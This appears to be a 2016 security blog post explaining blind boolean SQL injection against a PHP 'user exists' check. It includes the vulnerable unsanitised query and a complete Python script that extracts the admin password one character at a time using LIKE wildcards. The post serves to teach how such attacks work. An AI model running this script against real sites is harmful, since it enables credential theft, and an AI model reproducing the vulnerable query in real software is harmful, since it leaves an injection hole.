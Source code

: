 ```yaml
---
layout: post
title:  "SQL Oracle"
date:   2016-03-08 21:30
categories: security
tags: security code
---
```

Lets assume we stumble upon a web application that lets you query if a user
exists.

The underlying database, if it was badly designed, like a lot of web
applications are, could look like this:
{% highlight sql %}
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
{% endhighlight %}
The first and major fault is, that the password is not encrypted, which would
increase the computing complexity a lot. But our application is what it is.

The webapplication has a form field in which one can input a user name and a
button to submit the query. It checks for a user in the database like this:
{% highlight php %}
$query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
{% endhighlight %}

Next major fault: no input sanitation. What we see here opens up a hole so big
that we need to use SQL injection. The application forces this on us, basically.

But our brave application developer keeps on going. So if a user was found it
returns a HTML site containing a string like  "This user exists.". We use this
as a oracle for guessing a password.

So lets start to automate this. We already guessed a user name in our case
'admin'.
{% highlight python %}
username = 'admin" and password like binary "'
submit = "Check existence"
{% endhighlight %}

We use the `binary` SQL operator to distinguish between upper and lower case
in SQL queries.

We prepare also our possible character set:

{% highlight python %}
string=''.join(ch for ch in string.printable)
{% endhighlight %}
Since this should be a human readable password, we only need printable
characters.

Now lets put together a function to try our passwords:
{% highlight python %}
def try_password(password):
    sql_injection = username+password
    data = {
        "username":sql_injection,
        "submit":submit
        }
    encoded_data=urllib.urlencode(data)
    request = urllib2.Request("https://example.com/testuser")
    return urllib2.urlopen(request,encoded_data)
{% endhighlight %}
We pass our password candidate to this function. We create a `data` map which will hold the form data. We then encode it and send it over the wire. What ever comes back will hold the information we need.

Lets finalize this by writing the bruteforce function and checking for
completion:
{% highlight python %}
while True:
    for ch in string:
        testname = bruteforce+(ch+"%")
        content = try_password(testname)
        if "This user exists" in content.readlines()[13]:
            bruteforce += ch
            print bruteforce
            if "This user exists." in try_password(bruteforce).readlines()[13]:
                print 'Password is: %s' % bruteforce
                sys.exit(0)
            break
{% endhighlight %}
We iterate over all the characters in our string, and append this and a "%", the
SQL wildcard character, to our already confirmed password. As soon as we find a
matching character we append it to our already known part of the string, and
print it so we see some progress. We then try again to see if we are already
done. For this we simple omit the wildcard character.

The complete script looks like this:
{% highlight python %}
import urllib,urllib2,base64
import string, sys

username = 'admin" and password like binary "'
submit = "Check existence"

bruteforce = ''
string=''.join(ch for ch in string.printable if ch.isalnum())

def try_password(password):
    sql_injection = username+password
    data = {
        "username":sql_injection,
        "submit":submit
        }
    encoded_data=urllib.urlencode(data)
    request = urllib2.Request("https://example.com/testuser")
    return urllib2.urlopen(request,encoded_data)

while True:
    for ch in string:
        testname = bruteforce+(ch+"%")
        content = try_password(testname)
        if "This user exists" in content.readlines()[13]:
            bruteforce += ch
            print bruteforce
            if "This user exists." in try_password(bruteforce).readlines()[13]:
                print 'Password is: %s' % bruteforce
                sys.exit(0)

            break
{% endhighlight %}
